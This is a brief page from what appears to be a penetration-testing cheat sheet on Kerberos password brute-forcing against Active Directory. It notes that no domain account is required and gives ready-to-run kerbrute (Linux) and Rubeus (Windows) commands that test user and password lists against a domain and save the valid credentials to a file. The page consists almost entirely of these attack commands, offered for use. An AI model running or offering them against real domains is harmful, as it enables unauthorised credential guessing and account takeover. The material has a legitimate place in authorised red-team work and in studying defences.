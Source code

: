 # Kerberos brute-force

{% hint style="success" %}
No domain account is needed to conduct the attack
{% endhint %}

### **Linux**

{% code overflow="wrap" %}
```bash
./kerbrute  -domain hacktpor.local -users users.txt -passwords passwords.txt -outputfile jurassic_passwords.txt
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### **Windows**

{% code overflow="wrap" %}
```bash
.\Rubeus.exe brute /users:users.txt /passwords:passwords.txt /domain:jurassic.park /outfile:jurassic_passwords.txt
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>
